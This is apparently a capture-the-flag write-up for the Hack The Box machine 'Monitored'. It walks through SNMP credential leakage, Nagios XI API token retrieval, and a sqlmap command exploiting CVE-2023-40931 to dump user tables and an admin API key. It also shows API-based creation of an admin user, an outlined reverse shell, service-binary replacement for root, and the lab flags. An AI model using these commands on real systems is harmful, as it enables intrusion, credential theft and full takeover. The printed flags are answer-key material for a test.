 # Monitored. 
Box Difficulty : Medium

## Initial Enumeration

- Target: [https://10.10.11.248/](https://10.10.11.248/)
- Open Ports: 80, 389, 443

## Web Application Analysis

- Access the website: [https://10.10.11.248:443](https://10.10.11.248:443)
- Navigate to `login.php` after clicking on a button: [https://10.10.11.248/nagiosxi/login.php](https://10.10.11.248/nagiosxi/login.php)
- Searchsploit for NagiosXI reveals a potential Remote Code Execution (RCE) without version or credentials.


- Default Nagios XI credentials (`nagiosadmin/nagiosadmin`) do not work.
- Testing for XSS on NagiosXI: Not successful.

- Second Dirsearch in `/nagiosxi/` reveals several findings:
  - `/nagiosxi/api/v1/swagger.yaml` and `/nagiosxi/api/v1/swagger.json` with an error "No API key provided."
  - `/nagiosxi/backend/` returns an "Authentication Failure" error.

- Further investigation suggests the need for an API key.

## LDAP Enumeration

- Run Nmap script for LDAP enumeration:

		nmap --script=ldap* 10.10.11.248 -oX ldap.xml
  
Discover LDAP information indicating the context dc=monitored,dc=htb.

## SNMP Enumeration

Use snmpwalk for further enumeration:


		snmpwalk -v2c -c public -m ALL 10.10.11.248
		
Extracted OS, Hostname, System Uptime, Host Location, Contact Number, Number of Interfaces, and Network Interface details.

## Exploitation
### Credential Leakage

		iso.3.6.1.2.1.25.4.2.1.5.563 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
		
		Credential: svc:XjH7VCehowpR1xZB
		
Identified the need for an API key for NagiosXI and crafted a payload.

		curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
		
Exploited a known CVE (CVE-2023-40931) related to NagiosXI 5.11.0/5.11.1 for SQL injection 
		
			sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id -D nagiosxi -T xi_users --dump

Admin API Key: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

Create Admin User via API

		$ curl -XPOST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1' -d 'username=xxx&password=xxx&email=xxx@xxx.com&name=xxx&auth_level=admin' -k

Response :
		{
		"success": "User account xxx was added successfully!",
		"user_id": 10
		}
		
Login using the Created Admin User
Credentials: xxx:xxx

Create Reverse Shell Command
In the Nagios XI host management, create a new command for the reverse shell

## Privilege Escalation

Checked sudo privileges for user nagios:


		sudo -l
		or wget linpeas.sh
		
Identified various commands that can be executed without a password.

Compiled and executed a C file to spawn a reverse shell as nc.

Checked for existing services and replaced npcd with a custom binary for privilege escalation.

Accessed the root.txt file and obtained the root flag.

## Conclusion
The penetration test successfully exploited vulnerabilities in NagiosXI, leading to privilege escalation and obtaining root access.

### User Flag: 57a65054216b061e0704cdf68f336b24
### Root Flag: 44642149033fb64160f0667390540dd0

